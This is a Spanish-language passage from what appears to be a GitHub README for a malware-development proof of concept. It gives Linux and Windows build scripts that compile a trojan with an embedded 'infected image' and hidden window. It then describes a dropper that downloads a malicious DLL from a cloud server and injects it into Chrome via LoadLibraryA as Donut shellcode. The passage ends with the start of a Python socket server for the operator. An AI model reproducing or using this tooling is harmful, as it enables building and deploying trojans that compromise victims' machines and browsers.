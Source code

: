 ```cpp
```

- Script PoC-maldev/compile.sh : Script de compilación para Linux (Bash)
```bash
#!/bin/bash

x86_64-w64-mingw32-windres -o resources.o resources.rc
x86_64-w64-mingw32-g++ -o trojan trojan.cpp -lwsock32 -lws2_32 -Wl,--subsystem,windows resources.o
```

- Script PoC-maldev/compile.bat : Script de compilación para para Windows
```bat
@ECHO OFF

rc /nologo resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tp trojan.cpp /link /OUT:trojan.exe /SUBSYSTEM:WINDOWS /MACHINE:x64 resources.o
```

- Compilacion
    Se requieren en el mismo directorio los archivos :

      • trojan.cpp
      • resources.rc
      • resources.h
      • imageninfectada.png
      • compile.sh
```bash
bash compile.sh
```

O alternativamente en Windows:

```bat
compile.bat
```

Dudas? ... Unete a la [charla](https://t.me/Ivam3by_Cinderella/22) en nuestro [Chat de Telegram](https://t.me/Ivam3by_Cinderella)


2. Dropper y DLL Injector (dllinjector.exe): Esta etapa del malware descarga un DLL malicioso (evildll.dll) desde el servidor en la nube, lo carga y ejecuta en el proceso inyectado (chrome.exe) haciendo uso de LoadLibraryA. Esta etapa del malware se usa en formato de shellcode payload (dllinjector.bin) y para transformarlo a este formato nos apoyamos de la herramienta [Donut](https://github.com/TheWover/donut).

    Apoyate con el video de la ponencia en su [Segunda Parte](https://t.me/Ivam3_Bot) al adquirir tu [Membresia de la comunidad](https://www.youtube.com/ivam3bycinderella/join)

- Script PoC-maldev/server1.py
```python3
import socket
import sys
import numpy as np
from PIL import Image

class Server:
  def init(self, ip, port):
    self.server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    self.server.bind((ip, port))
    self.server.listen(1)
    self.server.settimeout(20)

  def run(self):
    while True:
      try:
        client, address = self.server.accept()
```